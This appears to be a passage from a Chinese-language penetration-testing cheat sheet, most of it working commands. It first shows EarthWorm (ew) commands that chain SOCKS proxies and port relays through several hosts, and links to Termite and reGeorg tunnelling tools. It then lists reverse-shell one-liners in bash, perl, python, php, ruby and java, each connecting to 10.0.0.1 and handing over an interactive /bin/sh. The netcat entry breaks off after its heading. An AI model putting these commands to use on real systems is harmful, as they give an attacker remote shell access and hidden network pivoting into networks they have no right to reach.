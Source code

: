 ```
```
多级级联
```
$ ./ew -s lcx_listen -l 1080 -e 8888
$ ./ew -s lcx_tran -l 1080 -f 2.2.2.3 -g 9999
$ ./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 2.2.2.3 -g 9999
``` 
lcx_tran 的用法
```
$ ./ew -s ssocksd -l 9999
$ ./ew -s lcx_tran -l 1080 -f 127.0.0.1 -g 9999
```
lcx_listen、lcx_slave 的用法
```
$ ./ew -s lcx_listen -l 1080 -e 8888
$ ./ew -s ssocksd -l 9999
$ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
```
“三级级联”的本地SOCKS测试用例以供参考
```
$ ./ew -s rcsocks -l 1080 -e 8888
$ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
$ ./ew -s lcx_listen -l 9999 -e 7777
$ ./ew -s rssocks -d 127.0.0.1 -e 7777
```
#### [Termite](http://rootkiter.com/Termite/) 
使用说明:http://rootkiter.com/Termite/README.txt 
#### 代理脚本 
reGeorg :https://github.com/sensepost/reGeorg

### shell反弹 
bash  
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
perl 
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
python 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
php 
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
ruby 
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
java 
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
nc 
```
#使用-e 
```
